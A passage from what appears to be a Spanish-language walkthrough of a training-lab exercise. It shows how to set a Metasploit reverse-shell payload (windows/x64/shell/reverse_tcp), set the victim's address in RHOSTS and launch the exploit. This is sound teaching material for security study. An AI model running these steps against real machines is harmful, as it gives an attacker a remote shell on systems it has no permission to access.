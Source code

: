     ```
    windows/x64/shell/reverse_tcp
    ```

    Esto se hace ejecutando el siguiente comando en Metasploit:

    ```bash
    set payload windows/x64/shell/reverse_tcp
    ```
3.  Para verificar que el cambio se aplicó correctamente, puedes volver a usar:

    ```bash
    show options
    ```

    Allí verás que el payload activo ahora es `windows/x64/shell/reverse_tcp`.

***

**Tener en cuenta:**

Este cambio no es obligatorio para ejecutar el exploit, pero permite entender cómo se configura manualmente un payload diferente en Metasploit.

***

### <mark style="color:purple;">**5. With that done, run the exploit!**</mark>

> **Traducción de la pregunta:**\
> ¡Una vez hecho esto, ejecuta el exploit!

***

**Objetivo de la pregunta**

El objetivo es lanzar el exploit después de haber configurado correctamente todos los parámetros necesarios, incluyendo el payload y las direcciones IP requeridas.

***

**Ejecución del exploit**

Una vez que ya:

* Has seleccionado el exploit adecuado
* Has configurado `RHOSTS` con la IP de la máquina víctima
* Has cambiado el payload a `windows/x64/shell/reverse_tcp`

Entonces puedes ejecutar el exploit con:

```bash
run
```

o también:

```bash
exploit
```
